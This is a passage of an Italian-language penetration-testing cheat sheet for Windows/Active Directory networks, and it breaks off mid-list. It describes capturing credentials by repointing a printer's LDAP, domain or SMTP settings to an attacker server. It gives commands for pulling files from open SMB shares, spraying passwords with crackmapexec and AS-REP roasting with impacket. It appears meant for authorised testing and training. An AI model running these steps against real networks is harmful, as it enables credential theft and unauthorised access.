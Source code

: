     c) La prossima volta che verrà eseguita una query LDAP dall'MFP, questa tenterà di autenticarsi al tuo server LDAP utilizzando le credenziali configurate o le credenziali fornite dall'utente;
    

Potremmo utilizzare anche:

- le impostazioni di accesso a Windows sostituendo il dominio esistente con il nostro dominio e la volta successiva che un utente del dominio accede al pannello di controllo, le credenziali vengono inviate al nostro controller di dominio,
- le impostazioni SMTP (La configurazione SMTP esistente per questa MFP ha archiviato credenziali per l'autenticazione SMTP che possono essere passate a noi, dopo aver sostituito il server SMTP esistente con il nostro server SMTP).

Vedere PRET (il Printer Exploitation Toolkit)

[https://github.com/RUB-NDS/PRET](https://github.com/RUB-NDS/PRET)

---

## Se trovo *shares* aperti

1. Cerco di collegarmi e aggiungo il *flag* ricorsivo per osservare già il contenuto senza esplorazione manuale

```bash
smbclient //<IP>/<DIR> -c 'recurse;ls'
```

2. Se vi sono file interessanti, posso accedere e recuperarli con “***get***”

```bash
smbclient //<IP>/<DIR>
```

```bash
get <FILE>
```

---

## Se trovo utenti (ma non password)

1. Posso sfruttare *crackmapexec* al fine di trovare eventuali password deboli, usando una buona wordlist

```bash
crackmapexec smb <IP> -u <USERS.txt> -p <WORDLIST.txt>
```

2. Posso provare un ***ASREProasting*** (funzionante nel caso in cui almeno uno degli utenti trovati abbia la *Kerberos pre-authentication disabled)*  e crackare l’*hash* intercettato con ***hashcat***

```bash
impacket-GetNPUsers <DOMAIN>/ -userfile <USERS.txt>
```

oppure
